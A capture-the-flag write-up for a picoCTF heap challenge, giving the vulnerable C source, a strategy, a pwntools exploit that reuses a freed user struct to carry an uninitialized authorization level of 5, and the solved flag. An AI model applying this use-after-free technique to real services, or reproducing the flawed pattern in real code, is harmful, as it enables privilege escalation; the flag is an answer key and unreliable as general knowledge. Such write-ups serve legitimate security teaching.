

### auth.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

typedef enum auth_level {
  ANONYMOUS = 1,
  GUEST = 2,
  USER = 3,
  ADMIN = 4,
  ROOT = 5
} auth_level_t;
  
struct user {
  char *name;
  auth_level_t level;
};

void give_flag(){
  char flag[48];
  FILE *f = fopen("flag.txt", "r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  if ((fgets(flag, 48, f)) == NULL){
    puts("Couldn't read flag file.");
    exit(1);
  };
  
  puts(flag);
  fclose(f);
}

void menu(){
  puts("Available commands:");
  puts("\tshow - show your current user and authorization level");
  puts("\tlogin [name] - log in as [name]");
  puts("\tset-auth [level] - set your authorization level (must be below 5)");
  puts("\tget-flag - print the flag (requires authorization level 5)");
  puts("\treset - log out and reset authorization level");
  puts("\tquit - exit the program");
}

int main(int argc, char **argv){
  char buf[512];
  char *arg;
  uint32_t level;
  struct user *user;

  setbuf(stdout, NULL);

  menu();

  user = NULL;
  while(1){
    puts("\nEnter your command:");
    putchar('>'); putchar(' ');

    if(fgets(buf, 512, stdin) == NULL)
      break;

    if (!strncmp(buf, "show", 4)){
      if(user == NULL){
	puts("Not logged in.");
      }else{
	printf("Logged in as %s [%u]\n", user->name, user->level);
      }

    }else if (!strncmp(buf, "login", 5)){
      if (user != NULL){
	puts("Already logged in. Reset first.");
	continue;
      }

      arg = strtok(&buf[6], "\n");
      if (arg == NULL){
	puts("Invalid command");
	continue;
      }

      user = (struct user *)malloc(sizeof(struct user));
      if (user == NULL) {
	puts("malloc() returned NULL. Out of Memory\n");
	exit(-1);
      }
      user->name = strdup(arg);
      printf("Logged in as \"%s\"\n", arg);

    }else if(!strncmp(buf, "set-auth", 8)){
      if(user == NULL){
	puts("Login first.");
	continue;
      }

      arg = strtok(&buf[9], "\n");
      if (arg == NULL){
	puts("Invalid command");
	continue;
      }

      level = strtoul(arg, NULL, 10);

      if (level >= 5){
	puts("Can only set authorization level below 5");
	continue;
      }

      user->level = level;
      printf("Set authorization level to \"%u\"\n", level);

    }else if(!strncmp(buf, "get-flag", 8)){
      if (user == NULL){
	puts("Login first!");
	continue;
      }

      if (user->level != 5){
	puts("Must have authorization level 5.");
	continue;
      }

      give_flag();
    }else if(!strncmp(buf, "reset", 5)){
      if (user == NULL){
	puts("Not logged in!");
	continue;
      }

      free(user->name);
      user = NULL;

      puts("Logged out!");
    }else if(!strncmp(buf, "quit", 4)){
      return 0;
    }else{
      puts("Invalid option");
      menu();
    }
  }
}
```

We are going to take advantage of a variable that is unitialized (the auth int).

## Strategy

1. Login with something that fills the user variable. Its 64bit ELF so 'AAAAAAAA' will do just fine
2. Add the auth number we want (5) to the end in 64bit format using pwntools
3. Free the user memory using the reset command in the menu which will clear our login but should keep the auth level to use on the next login
4. Login with whatever and get the flag. POC Below

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = 'critical'

argc = len(sys.argv)

def command(data):
	p.recvuntil('> ')
	p.sendline(data)
	return p.recvline()

def login(name):
	return command('login ' + name)

def show():
	return command('show')

def reset():
	return command('reset')

def get_flag():
	return command('get-flag')

if argc > 1:
	p = remote('2018shell.picoctf.com', 45906)
else:
	p = process('./auth')

login('A'*8 + p64(0x5))
reset()
login('test')
print get_flag()
p.close()
```

<details>
	<summary>Flag</summary>

picoCTF{m3sS1nG_w1tH_tH3_h43p_3dc31505}
</details>